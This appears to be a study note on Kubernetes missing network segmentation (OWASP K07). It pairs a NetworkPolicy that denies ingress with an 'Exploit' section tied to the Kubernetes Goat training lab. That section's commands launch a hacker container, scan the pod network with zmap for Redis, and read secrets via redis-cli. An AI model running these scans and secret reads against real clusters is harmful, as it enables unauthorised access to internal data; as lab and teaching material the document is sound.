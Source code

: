 # K07:  Missing Network Segmentation Controls

## Kubernetes namespaces bypass

Most people assume that resources in Kubernetes namespaces are secure and not able to access each other. Wrong! 

By default, Kubernetes comes with flat networking schema and if we need to have segmentation then we have to create them by creating boundaries like Network Security Policies. This vournability could lead to critical resources being exposed internally. 

## Secure Network Boundaries using NSP

```shell
# Create pod and svc
kubectl run --image=nginx website --labels app=website --expose --port 80

# Call service from different pod on the same network
kubectl run --rm -it --image=alpine temp -- ash
wget -qO- --timeout=1 http://website

# Deny ingress from podSelector
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: website
spec:
  podSelector:
    matchLabels:
      app: website
  ingress: []
EOF

kubectl run --rm -it --image=alpine temp -- sh
wget -qO- --timeout=1 http://website

# Clean up
kubectl delete pod,service,networkpolicy website
```

## Exploit

**Note** this example often results with no IP returned!

In this scenario, you will access resource in other namespaces.

```shell
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh

# Obtain MAC address of interfece eth0
ifconfig | grep eth0 | awk '{print $1 "\n" $5}' && ip -f inet addr show eth0 | awk '/inet / {print $2}'

# Get IPs of pods having redis port open
rm /etc/zmap/zmap.conf
zmap --target-port 6379 --output-file results.csv 10.244.120.78/16
zmap --target-port 6379 --output-file results.csv --interface eth0 --gateway-mac 7E:90:BA:00:9C:A8 10.244.120.78/16
cat results.csv | sort

# Connect to Redis DB
redis-cli -h IP

# Get secret
IP:6379>keys *
IP:6379>GET SECRETSTUFF
```

## Links

- [Kubernetes namespaces bypass](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-11/kubernetes-namespaces-bypass-from-kubernetes-cluster-pod/welcome)
- [Secure Network Boundaries using NSP](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-20/secure-kubernetes-using-network-security-policy/welcome)